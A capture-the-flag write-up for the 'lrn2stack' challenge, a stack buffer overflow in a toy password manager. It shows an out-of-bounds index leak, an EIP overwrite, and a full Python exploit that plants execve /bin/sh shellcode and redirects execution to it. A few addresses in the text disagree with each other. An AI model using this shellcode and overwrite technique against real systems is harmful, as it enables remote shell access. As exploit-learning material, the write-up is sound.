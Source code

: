 # lrn2stack

When running the binary, it expects a few options as user input: choice of function, index of storage, and data to be stored (username and password).

The prompt with expected input appears as below:

```
Welcome to the Very Useful Password Manager
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 1
enter index
-> 0
enter username
-> AAAA
enter password
-> BBBB
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> 0
AAAA:BBBB
```

Choosing the option 1: add credentials will prompt the user for an index to write to and then ask the user to input a 32 character username and a 32 character password. Using gdb, it was determined that the username and password would be stored adjacent on the stack.

<!-- trick to center an image -->
<p align="center"> <img src="./lrn2stack1.png" > </p>

Choosing the option 2: print credentials will prompt the user for an index to access a username and password and print them in the format "username:password"

<p align="center"> <img src="./lrn2stack2.png" > </p>

Effectively, these can be used to write and read data.

By providing some unexpected input to the index of storage, (ascii 0x2e '.') the following data was printed:

```
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> .
��:b�
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
```

Following the same input to the binary in strace, this is shown to be: 

`write(0, "\4\27\342\367:b\207\4\10\n", 10��:b�`

When converted to hex, these values are: 

`\x04\x17\xe2\xf7:\x62\x87\x04\x08\x0a`

On the left side, the 4-byte value starting with \xf7 appears to be a stack address whereas on the right side, the value 0x08048762 appears to be an address in .text, meaning a possible return address.

Examining the instruction at 0x080f8762 was found to be add esp, 0x10 after a call to printf

When testing the write in gdb, got a segmentation fault and overwrite of EIP

<p align="center"> <img src="./lrn2stack3.png" > </p>

At this point, a possible course of action is to first write shellcode to the stack using add credentials then use the add credentials option to write to index '.', overwriting the return address to point to the shellcode on the stack.

To find a valid stack address, the binary was hosted on socat and hooked up to gdbserver. Breakpoint was set after printf at 0x08048762 when reading with option 2, then stack was examined. In the image below, the stack address used would be 0xffffce9c pointing to where the user input for username will be stored on the stack at index 0.

<p align="center"> <img src="./lrn2stack4.png" > </p>

After checking for security mitigations (no PIE, no NX, ASLR off), the proof of concept for the exploit was developed.

```
#!/usr/bin/python
# lrn2stack.elf
# Executed from root@aws-40:~/Downloads/bsidessactf# socat TCP-LISTEN:2323,reuseaddr,fork EXEC:"./lrn2stack.elf"
# NO PIE, NX OFF, ASLR OFF
# b *0x08048762

import socket
import struct
import telnetlib

TCP_IP = 'localhost'
TCP_PORT = 2323
# stack range - 0xfffdd000 0xffffe000    0x21000        0x0 [stack]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))

print s.recv(1024)
#"Please input an option"
s.send("1\n")

print s.recv(1024)
#"enter index"
# store shellcode at 0xffffcebc
s.send("0\n")

print s.recv(1024)
# shellcode 24 bytes from https://www.exploit-db.com/exploits/42428/
username = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n"

s.send(username)

print "SENDING > " + username.encode('hex')
print s.recv(1024)

password = "BBBB\n"
s.send(password)
print s.recv(1024)

print s.recv(1024)

# Now trigger eip overwrite to point to shellcode at 0xffffcebc
s.send("1\n")

print s.recv(1024)
s.send(".\n")

print s.recv(1024)
s.send("AAAA\n")

print s.recv(1024)
password = struct.pack("I", 0xffffce9c) + "\n"
# 0xffffce4c
# 0xffffce9c
# 0xffffceac
s.send(password)

print "Did we get a shell?"

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
